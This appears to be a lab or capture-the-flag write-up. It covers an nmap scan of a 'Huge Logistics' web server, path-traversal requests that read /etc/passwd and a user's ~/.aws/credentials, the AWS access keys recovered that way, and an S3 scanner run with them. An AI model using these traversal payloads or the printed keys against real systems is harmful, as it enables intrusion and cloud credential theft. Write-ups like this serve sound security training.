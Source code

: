 ```yaml
---
title: Path Traversal to AWS Credentials to S3 
---
```


# Entry Point

`13.50.73.5`

<br><br>

### NMAP

```
# Nmap 7.94SVN scan initiated Thu Oct 10 15:55:22 2024 as: nmap -p 80 -sC -sV -oA scans/port80 13.50.73.5
WARNING: Service 13.50.73.5:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for ec2-13-50-73-5.eu-north-1.compute.amazonaws.com (13.50.73.5)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  rtsp
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: application/json
|     Content-Length: 163
|     {"error":{"message":"The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.","type":"NotFound"}}
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2359
|     Vary: Cookie
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/main.css">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/navbar.css">
|     <link rel="shortcut icon" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/images/favicon.ico">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/home.css">
|     <title>Home - Huge Logistics.</title>
|     </head>
|     <body>
|     <div class="navbar">
|     <ul>
|     <li><a class="nav-
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_http-title: Home - Huge Logistics.
```

# Website

![image](/assets/img/Pasted image 20241010155617.png)

### `/signup`

![image](/assets/img/Pasted image 20241010155922.png)

### `/invoices`

![image](/assets/img/Pasted image 20241010160026.png)

<br>

### LFI

![image](/assets/img/Pasted image 20241020230644.png)

![image](/assets/img/Pasted image 20241020230712.png)


```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```

![image](/assets/img/Pasted image 20241020230735.png)

### Local Users

```
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
nedf:x:1001:1001::/home/nedf:/bin/bash
```

### AWS Credentials

```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fnedf%2F.aws%2Fcredentials HTTP/1.1
```

```
[default]
aws_access_key_id = AKIATWVWNKAVEUUNAYO6
aws_secret_access_key = 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
```

![image](/assets/img/Pasted image 20241020233131.png)

<br><br>

# AWS

### S3

```
huge-logistics-bucket.s3.eu-north-1.amazonaws.com
```

![image](/assets/img/Pasted image 20241021004217.png)

```bash
python3 /opt/aws-s3-scanner/s3-scanner/main.py --profile nedf --region eu-north-1 --bucket huge-logistics-bucket
```

![image](/assets/img/Pasted image 20241021004608.png)

